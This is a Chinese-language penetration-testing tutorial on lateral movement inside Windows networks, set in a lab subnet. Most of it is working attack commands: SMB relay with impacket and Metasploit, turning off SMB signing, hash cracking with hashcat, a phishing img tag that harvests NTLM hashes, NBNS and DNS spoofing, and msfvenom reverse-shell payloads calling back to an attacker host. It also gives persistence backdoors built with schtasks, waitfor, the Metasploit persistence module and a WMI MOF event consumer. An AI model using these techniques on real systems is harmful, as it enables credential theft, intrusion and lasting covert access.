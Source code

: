 # 内网渗透技巧

#### 综合利用手法 <a id="-"></a>

**Smbrelay**

**smbrelayx.py**

由于此手法是中间件攻击，需要关闭SMB的签名措施，Windows Server默认开启，其他系统默认关闭，使用nmap扫描一下未开启签名的机器：

```text
nmap -sT -p 445 --open --script smb-security-mode.nse,smb-os-discovery.nse 192.168.111.0/24
```

![](https://p408.ssl.qhimgs4.com/t01604e474c6ef5812c.png)

关闭SMB签名方法：

修改注册表后重新启动：

HKEY\_LOCAL\_MACHIME\System\CurrentControlSet\Services\LanManServer\Paramete

```text
EnableSecuritySignature = 0
RequireSecuritySignature = 0
```

使用impacket中的smbrelayx.py进行中继攻击，目标是192.168.111.251：

```text
python smbrelayx.py -h 192.168.111.251 -c calc.exe
```

![](https://p408.ssl.qhimgs4.com/t01599c575f35b68f28.png)

当其他服务器使用正确的密码访问此服务器时：

![](https://p408.ssl.qhimgs4.com/t01db215995a62ada14.png)

Kali接收到Hash：

![](https://p408.ssl.qhimgs4.com/t010b025e5fda69d950.png)

目标服务器出现calc进程：

![](https://p408.ssl.qhimgs4.com/t016d477f6b8522e2b6.png)

可使用-e参数，执行任务程序：

![](https://p408.ssl.qhimgs4.com/t01835b649858f01e32.png)

可以将hash粘贴出来，使用hashcat进行字典攻击：

```text
hashcat64.exe -a 0 -m 5600 hash.txt pass.txt
```

![](https://p408.ssl.qhimgs4.com/t01d4af64616e9f8aa3.png)

**可制作钓鱼网站，包含以下内容**

```text
<img src="\\192.168.111.41\Admin$">
```

启动服务：

```text
python smbrelayx.py -h 192.168.111.251
```

用户访问时，可获得Hash，当认证方式相同时，也可以执行程序：

![](https://p408.ssl.qhimgs4.com/t0105d954ade8dee3d3.png)

**NBNS欺骗**

Metasploit:

```text
use auxiliary/spoof/nbns/nbns_response
set spoofip 192.168.111.41
run
```

当访问不存在的主机名称时，会发送广播包，如：

```text
net use \\School-Du2\admin$
```

![](https://p408.ssl.qhimgs4.com/t01a34d44e4907b723b.png)

这样会将不存在的主机名称再次解析到192.168.111.41上，完成SMB中继攻击。

**DNS欺骗**

编辑/etc/etter.dns，加入以下字段：

```text
School-DU1.school.com A 192.168.111.41
School-DU2.school.com A 192.168.111.41
```

使用ettercap进行DNS欺骗：

```text
ettercap -T -q -P dns_spoof -M arp /// ///
```

操作系统可能存在DNS缓存，清空缓存命令如下：

```text
ipconfig /displaydns        //查看缓存
ipconfig /flushdns            //清空缓存
```

当Windows请求域名信息时，会被DNS欺骗：

![](https://p408.ssl.qhimgs4.com/t0139d5c7614aed7644.png)

访问共享时，会被DNS欺骗，此环境中欺骗成功，但后续步骤未成功：

![](https://p408.ssl.qhimgs4.com/t01d3ecdccf1ad4ec83.png)

访问School-DU2.school.com时，可成功：

![](https://p408.ssl.qhimgs4.com/t01a78cec9d0bb6ad50.png)

**smb\_relay**

```text
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.111.41
set smbhost 192.168.111.150
run
```

当其他机器访问Kali的共享时，可获得目标机器的shell：

![](https://p408.ssl.qhimgs4.com/t01a0a2515c993c8fd4.png)

![](https://p408.ssl.qhimgs4.com/t0142cfc99838b80e9c.png)

**Waitfor后门**

```text
waitfor college && calc.exe         //本地执行
waitfor /s 127.0.0.1 /si college    //测试
waitfor /s IP /si college /U administrator /P 360College
```

![](https://p408.ssl.qhimgs4.com/t0124f2d82e3f8850ce.png)

**At && Schtasks\(需要管理员权限\)**

先生成一个远控程序：

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.111.41 lport=4444 -f exe -o backdoor.exe
```

将远控程序上传至服务器，使用schtasks，要求在用户登录时执行程序，返回shell。

```text
schtasks /create /tn hello /tr C:\Users\linghuchong\Desktop\Tools\backdoor.exe /sc onlogon /ru system
```

用户登录时，成功反弹shell

![](https://p408.ssl.qhimgs4.com/t01034e67ae513c3b81.png)

**Metasploit后门模块**

当获得了一个meterpreter时，可设置后门程序：

```text
background
use exploit/windows/local/persistence
show options
```

![](https://p408.ssl.qhimgs4.com/t01c0e4ff12f6eaee43.png)

```text
set session 6
set delay 60
run
```

![](https://p408.ssl.qhimgs4.com/t01973e6b8678d0dad9.png)

**WMI+MOF**

假设已经获得了管理员权限，可构造MOF后门，MOF文件模板如下：

```text
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "Powershell Helper";
    RunInteractively=false;
    CommandLineTemplate="cmd /C 命令";
};

instance of __EventFilter as $Filt
{
    Name = "EventFilter";
    EventNamespace = "Root\\Cimv2";
    Query ="SELECT * FROM __InstanceCreationEvent Within 5" 
           "Where TargetInstance Isa \"Win32_Process\" "
           "And Targetinstance.Name = \"notepad.exe\" ";
    QueryLanguage = "WQL";
};

instance of __FilterToConsumerBinding {
     Filter = $Filt;
     Consumer = $Cons;
};
```

利用msfvenom生成powershell反弹shell的命令：

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.111.41 lport=5555 -f psh-cmd
```

![](https://p408.ssl.qhimgs4.com/t01d800d0aea02c8083.png)

将生成的powershell部分替换模板中的“命令”部分：

![](https://p408.ssl.qhimgs4.com/t014e50c251b65102ff.png)

将mof上传至服务器，在服务器中以管理员身份启动CMD，运行：

```text
mofcomp backdoor.mof
```

![](https://p408.ssl.qhimgs4.com/t012d9ea32cf2b3291f.png)

监听端口，待服务器打开notepad.exe:

![](https://p408.ssl.qhimgs4.com/t01c98af5d46e5ba4d0.png)

其他事件，实测只能监听一个事件：

关闭powershell:

```text
#!sql
"SELECT * FROM __InstanceDeletionEvent Within 5 " 
  "Where TargetInstance Isa \"Win32_Process\" "
  "And Targetinstance.Name = \"powershell.exe\" ";
```

每小时的30分钟：

```text
#!sql
"Select * From __InstanceModificationEvent "
  "Where TargetInstance Isa \"Win32_LocalTime\" "
  "And TargetInstance.Minute = 30 "
```

